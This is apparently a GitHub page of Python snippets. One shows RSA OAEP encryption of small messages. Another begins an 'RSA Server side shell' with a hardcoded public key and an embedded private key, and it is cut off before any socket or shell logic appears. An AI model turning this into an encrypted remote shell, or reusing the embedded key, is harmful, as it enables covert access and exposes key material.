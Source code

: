 

## RSA Enc Small messages

```python
from Cryptodome.PublicKey import RSA
from Cryptodome.Cipher import PKCS1_OAEP

def encrypt(message):
    publickey = open("public.pem", "rb")
    public_key = RSA.importKey(publickey.read())
    encryptor = PKCS1_OAEP.new(public_key)
    encrypted_data = encryptor.encrypt(message)
    print(encrypted_data)
    return encrypted_data

message = 'H'*470 # Limitation on size of the clear text message is 470 bytes with a key size of 4096 bits
encrypted_data = encrypt(message.encode())


def decrypt(cipher):
    privatekey = open("private.pem", "rb")
    private_key = RSA.importKey(privatekey.read())
    decryptor = PKCS1_OAEP.new(private_key)
    print (decryptor.decrypt(cipher).decode())

decrypt(encrypted_data)

```


## RSA Server side shell

```python
import socket
from Cryptodome.PublicKey import RSA
from Cryptodome.Cipher import PKCS1_OAEP

def encrypt(message):
    publickey = '''-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEAt9mjsBED9D/MYnU+W5+6
aP9SS1vgL9X6bThNkGKsZ5ZVfnoK4BxMBHI5Gi/YtoCJjyAGsWMpxy1fQ+F+ZWVA
kwZDoQMWTrfZASHmQgB944PfGA7qfn15kDXmCyvzbitRyWvTs1LDDNF7Q/54Qj82
h/85ibOPzQrpwQTjEAs8CJ14YWXAJnqOC6devaDYKdB7SSlueVtoQ8BxWc3hOJHJ
pvgZQ/6NixnICLIrFN0YbKZo4A0D3yRJIdumZw8uqwEMeIt41ja6zOG3gKtsG8su
BZ/MvqX0WgojWr6hNs1Q8h3LtiSsPiUP/bTWD9zos8Yr7RuEabesjHlY0qcNzZ/Y
gKXdgxUkCikTjRon6Mvh7iWKAtEilQlDeBYMGUvFUQ5FMF5LZJ5Q/7+JXulv8Whq
KTp4dGpB3kUWuN+ltxBr+IYPhpBfMcR97W+NuXDReUiIGFJpVI1m4AeCzz1BdAM7
U928DcglK6IowMmN4McyKuv49YYPd7TNFjJWc7P6e19V3BsxA5jpCc6Dxp5AM6WC
0FqgSSOGVCIkcHT5wLcALyaXOaO0vhMgWWO233Of33wh/7oHclsc5r44MHlZrNSe
X2QIHCFU4Mwp1hutIuIKkn5dLt1qmt2CDUO/uxGbdTf667c9TLYcYWoi/eDBdrVx
7CkYI7g81RdcB6jGgbr9W4kCAwEAAQ==
-----END PUBLIC KEY-----'''
    public_key = RSA.importKey(publickey)
    encryptor = PKCS1_OAEP.new(public_key)
    encryptedData = encryptor.encrypt(message)
    return encryptedData

def decrypt(cipher):
    privatekey = '''-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEApceMHQ9c5Cdf+qgd4ASPM7WNbKavEwat78bMHQVK6cRNm2XS
WCLpTsYN2eUALV++dYi2Im0T92bqYojRm+p4vVKOvrdmcmfnITEw/++pbvGZYRf2
y0zsSJi1Mi+lfgQs56QXBMIU6IdeCL2C7cex9LNJ98ipGeN6nBiaExI9he3Pcivz
tD5vHowCwkbzAnpZgPamrN10/KukWKvJ3t05bc0MskjkhVaaN55eidzAXUmYmxyo
```